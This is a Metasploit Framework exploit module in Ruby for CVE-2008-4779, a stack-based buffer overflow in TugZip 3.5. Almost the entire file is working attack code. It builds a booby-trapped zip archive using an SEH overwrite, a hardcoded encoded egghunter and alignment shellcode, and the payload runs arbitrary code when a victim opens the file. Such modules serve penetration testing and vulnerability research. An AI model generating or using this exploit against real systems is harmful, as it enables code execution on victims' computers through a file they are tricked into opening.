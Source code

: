 EXP
---

    ##
    # $Id: tugzip.rb 13868 2011-10-11 03:30:14Z sinn3r $
    ##

    ##
    # This file is part of the Metasploit Framework and may be subject to
    # redistribution and commercial restrictions. Please see the Metasploit
    # Framework web site for more information on licensing and terms of use.
    # http://metasploit.com/framework/
    ##

    require 'msf/core'
    require 'rex/zip'

    class Metasploit3 < Msf::Exploit::Remote
     Rank = GoodRanking

     include Msf::Exploit::FILEFORMAT

     def initialize(info = {})
      super(update_info(info,
       'Name'           => 'TugZip 3.5 Zip File Parsing Buffer Overflow Vulnerability',
       'Description'    => %q{
         This module exploits a stack-based buffer overflow vulnerability
        in the latest version 3.5 of TugZip archiving utility.
        In order to trigger the vulnerability, an attacker must convince someone
        to load a specially crafted zip file with TugZip by double click or file open.
        By doing so, an attacker can execute arbitrary code as the victim user.
       },
       'License'        => MSF_LICENSE,
       'Author'         =>
        [
         'Stefan Marin', # Vulnerability discovery
         'Lincoln', # Corelan team. Original exploit
         'TecR0c <roccogiovannicalvi[at]gmail.com>', # Metasploit module
         'mr_me <steventhomasseeley[at]gmail.com>',  # Metasploit module
        ],
       'Version'        => '$Revision: 13868 $',
       'References'     =>
        [
         [ 'OSVDB', '49371' ],
         [ 'CVE', '2008-4779' ],
         [ 'BID', '17432' ],
         [ 'URL', 'http://www.exploit-db.com/exploits/12008/' ]
        ],
       'Platform'       => [ 'win' ],
       'Payload'        =>
        {
         'BadChars'      => "\x00\x0f\x14\x15\x2f" + (0x80..0xff).to_a.pack('C*'),
         'DisableNops'   => true, # no need
         'EncoderType'   => Msf::Encoder::Type::AlphanumMixed,
         'EncoderOptions' =>
          {
           'BufferRegister' => 'EDI', # Egghunter jmp EDI
          }
        },

       'Targets'        =>
        [
         [
          'Universal',
          {
           'Ret'    => 0x7e0c307e,
           # 5.00.2147.1 [ztvcabinet.dll]
           # POP EBX > POP EBP > RETN
           'Offset' => 372, # to nseh
          }
         ],
        ],
       'DislosureDate' => 'Oct 28 2008',
       'DefaultTarget'  => 0))

       register_options(
       [
        OptString.new('FILENAME', [ true, 'The output file name.', 'msf.zip']),
       ], self.class)

     end

     def exploit

      # Hardcoded egghunter due to size limit (before nseh destroyed/130D past seh of usable bytes)
      # base register ESI
      hunter = "VYIIIIIIIIIIIIIIII7QZjAXP0A0AkAAQ2AB2BB0BBABXP8ABuJIK9Jzs"
      hunter << "rbrRJuRRxzmvNWLWuQJt4ZOnXPwtpTpQdLKJZLoPuzJNO3EXgkOJGA"
      eggtag = 'w00t' * 2

      getpc_asm = %q{
       popad
       popad
       popad
       popad
       popad
       pop ebx
      }

      # Align EBX for hunter
      alignment = Metasm::Shellcode.assemble(Metasm::Ia32.new, getpc_asm).encode_string

      # Align for ESI + factoring mangled chars
      alignment << "\x89\x05"              # jmp short (5 bytes) to 'jmp back' at end
      alignment << "\x5e"                  # pop esi
      alignment << "\x41"                  # nop (inc ecx)
      alignment << "\x98\x99"              # call esi
      alignment << "\x41"                  # nop (inc ecx)
      alignment << "\x8a\x94\x98\x98\x98"  # jmp back to pop esi

      getpc_asm = %q{
       popad
       pop esp
       inc eax
       inc eax
      }

      # Realign stack pointer
      nseh = Metasm::Shellcode.assemble(Metasm::Ia32.new, getpc_asm).encode_string

      seh = [target.ret].pack("V*")

      sploit = rand_text_alpha(target['Offset'])
      sploit << nseh << seh
      sploit << alignment
      sploit << hunter
      sploit << eggtag << payload.encoded

      zip = Rex::Zip::Archive.new
      xtra = [0xdac0ffee].pack('V')
      comment = [0xbadc0ded].pack('V')
      zip.add_file(sploit, xtra, comment)

      # Create the file
      print_status("Creating '#{datastore['FILENAME']}' file...")

      file_create(zip.pack)
     end

    end